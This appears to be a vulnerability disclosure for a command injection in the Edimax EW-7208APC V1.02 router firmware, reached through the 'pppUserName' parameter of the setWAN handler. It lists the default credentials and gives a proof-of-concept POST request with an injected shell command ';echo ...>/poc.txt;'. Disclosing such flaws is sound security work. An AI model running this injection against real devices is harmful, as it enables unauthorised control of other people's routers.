## **Description**

A command injection vulnerability was discovered in the Edimax EW-7208APC firmware version ​**V1.02**. The vulnerability arises from the improper input validation of the `'pppUserName'` parameter in the 'setWAN' interface of the file webs.

## ​**Affected Product**

- ​**Brand**: EDIMAX
- ​**Product**: EW-7208APC
- ​**Version**: V1.02

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d Edimax ../FIRMWARE/EW-7208APC_v1.02.bin
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `1234`

The result of the simulation is as follows: 
![sim_res](./img/sim_res.png)
## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'setWAN' is below:
![vulner_code.png](./img/vulner_code.png)
- ​**websGetVar** retrieves POST parameters 'pppUserName'.
- **system()** is used without check, resulting a command injection in this place

## **Proof of Concept (PoC)**

### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test.
Example package
```http
POST /goform/setWAN HTTP/1.1  
Host: 192.168.2.1  
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 49  
Origin: http://192.168.2.1
Authorization: Basic YWRtaW46MTIzNA==  
Connection: close  
Referer: http://192.168.2.1/adv_wireless.asp 
Upgrade-Insecure-Requests: 1  
  
wanMode=2&pppUserName=;echo pppUserName>/poc.txt;
```

After the request we can see the file 'poc.txt' been created in the root directory.
![result](./img/result.png)